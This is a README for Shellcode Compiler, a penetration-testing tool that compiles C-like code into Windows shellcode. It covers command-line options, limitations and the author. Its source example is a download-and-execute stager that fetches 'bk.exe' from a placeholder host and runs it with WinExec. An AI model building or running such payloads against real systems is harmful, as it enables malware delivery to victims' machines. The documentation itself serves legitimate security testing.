 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows. It is possible to call any Windows API function in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with NASM (http://www.nasm.us/). 

Shellcode compiler was released at DefCamp security conference in Romania, November 2016.

# Command line options
        -h (--help)      : Show this help message
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Source code example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);
        
# Invocation example
        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm
        
# Limitations
1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables
4. It is not possible to output hex strings

All these limitations will be fixed as soon as possible. However, many other limitations will exist.
This is an Alpha version. Please report any bugs or suggestions.

# Author

Ionut Popescu (@NytroRST) is working as a Senior Penetration Tester for SecureWorks (www.secureworks.com).
